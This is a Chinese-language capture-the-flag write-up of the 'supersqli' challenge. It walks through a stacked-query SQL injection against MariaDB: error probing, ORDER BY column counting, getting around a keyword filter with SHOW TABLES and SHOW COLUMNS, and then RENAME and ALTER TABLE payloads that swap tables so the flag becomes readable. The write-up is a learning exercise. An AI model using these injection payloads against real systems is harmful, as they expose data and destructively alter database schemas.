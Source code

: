 # supersqli

题目描述：随便注

遇到 `SQL` 题我是有一点点恶感和害怕的, 感觉每题的注射方式都不一样!

尝试一些简单的值: `1'` 返回错误:

`error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1`

从 `MariaDB` 我们可以知道这题是 `MYSQL` 注入.

检查 `table` 有 2 `columns`:

```
?inject=1'+order+by+1--+
?inject=1'+order+by+2--+
?inject=1'+order+by+3--+ 返回错误
```

本题也 `filter` 一些字:

```
?inject=1'+union+select+1,2--+
返回: return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

试了所有我知道的方法, 还是不能绕过这个 `filter`. 太绝望了, 决定找一下 write up. 原来在 `MYSQL` 中有命令 `show` 可以用.

显示 `table`:

`?inject=-1';show+tables--+-`

`-1` 是用来清除页面, 因为 `inject=-1` 没有显示任何数据. 我们得到 `2` 个 `table` 是 `1919810931114514` 和 `words`. 以为到这应该快要成功. 显示 `table` 的 `columns`:

```
?inject=-1';show+columns+from+`1919810931114514`--+-
```

```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

`?inject=-1';show+columns+from+words--+-`

```
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

又是一次绝望, 看了 write up 后, 原来还有这样一种思路: 因为当开始我门读取 `inject=1`, `inject=2` 只读到两个 `inject` 的值, 所以页面显示我们可以读取的数据属于 `words`, 但 `flag` 又在 `1919810931114514` 里. 那么, 可以把这两个 `table` 的内容相换!!!

```
?inject=-1'%3bRENAME+TABLE+`words`+TO+`words1`%3bRENAME+TABLE+`1919810931114514`+TO+`words`%3bALTER+TABLE+`words`+CHANGE+`flag`+`id`+VARCHAR(100)+CHARACTER+SET+utf8+COLLATE+utf8_general_ci+NOT+NULL%3b--+-
```

现在我们已经可以读取 `words` 的内容和那到 `flag`:

`?inject=1'+or+1=1--+-`
